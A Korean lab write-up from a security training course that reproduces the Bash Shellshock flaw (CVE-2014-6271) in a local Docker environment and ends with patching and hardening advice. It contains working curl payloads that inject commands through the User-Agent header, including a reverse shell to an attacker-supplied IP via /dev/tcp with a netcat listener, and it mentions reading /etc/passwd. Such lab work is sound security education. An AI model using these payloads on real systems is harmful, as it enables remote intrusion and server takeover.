 # Bash Shellshock 원격 명령어 실행 취약점 (CVE-2014-6271)
>화이트햇 스쿨 3기 - 진형권 ([@Isidoro4-kor](https://github.com/Isidoro4-kor))

참고 - [vulhub](https://github.com/vulhub/vulhub/tree/master/bash/CVE-2014-6271)

## 요약
- Bash는 유닉스 및 리눅스에서 널리 사용되는 셸(shell)로, 사용자와 시스템이 상호작용할 수 있게 해주는 명령어 해석기입니다. 대부분의 리눅스 시스템에서 기본 셸로 사용되며, 스크립트를 실행하는 데에도 사용됩니다.
- 이 취약점은 Bash가 환경 변수에 정의된 함수를 처리할 때, 함수 정의 이후에 오는 임의의 명령어도 실행해버리는 문제입니다. 웹서버의 CGI 스크립트 환경에서 사용자가 조작한 HTTP 헤더가 환경 변수로 전달되면, 공격자가 헤더에 명령어를 삽입해 서버에서 임의 명령어를 실행시킬 수 있습니다.
- 원격 명령어 실행(RCE) - 서버에서 id, cat /etc/passwd 등 명령어를 실행, 시스템 권한 탈취 - root 권한 획득 후 시스템 제어 등이 가능합니다.

<br> 

## 환경설정
```bash
docker compose up -d
```
- ```http://localhost/victim.cgi``` -> 취약한 bash
- ```http://localhost/safe.cgi``` -> 패치된 bash
<br>

## Shellshock 공격 시도
```bash
curl -H 'User-Agent: () { :; }; echo; echo; /usr/bin/id' http://localhost:8080/victim.cgi
```
![취약bash_공격시도](./1.png)


<br> <br> 


```bash
curl -H 'User-Agent: () { :; }; echo; echo; /usr/bin/id' http://localhost:8080/safe.cgi

```
![패치bash_공격시도](./2.png)
<br>

## 리버스 쉘 연결 시도

새로운 터미널에서
```bash
nc -l 4444
```

기존 터미널에서 
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<your-ip>/4444 0>&1' \http://localhost:8080/victim.cgi

```

결과
![쉘탈취](./3.png)

<br>

**ls**, **whoami**, **cat /etc/passwd** 등의 명령어 가능 &nbsp;-> &nbsp;쉘 탈취 성공

<br>

## 최종 정리
Shellshock은 Bash가 환경변수를 잘못 파싱해 명령어를 실행하는 치명적 버그로,
단순한 HTTP 요청만으로도 원격 코드 실행(RCE)이 가능한 극악한 취약점이다.

이 취약점에 대한 예방을 위해서는 다음과 같은 조치가 필요하다:

- Bash 최신 버전으로 업데이트: 취약한 버전(4.3 이하)을 최신 패치된 Bash로 교체
- 취약한 CGI 스크립트 제거 또는 다른 셸로 전환: Bash를 직접 사용하는 웹 인터페이스는 줄이는 것이 바람직
- 웹 서버 보안 설정 강화: Apache의 경우 mod_security와 같은 WAF(Web Application Firewall) 적용
- 불필요한 환경변수 전달 차단: 서버에서 외부 입력을 환경변수로 등록하지 않도록 필터링
- 정기적인 취약점 진단 및 시스템 점검 수행


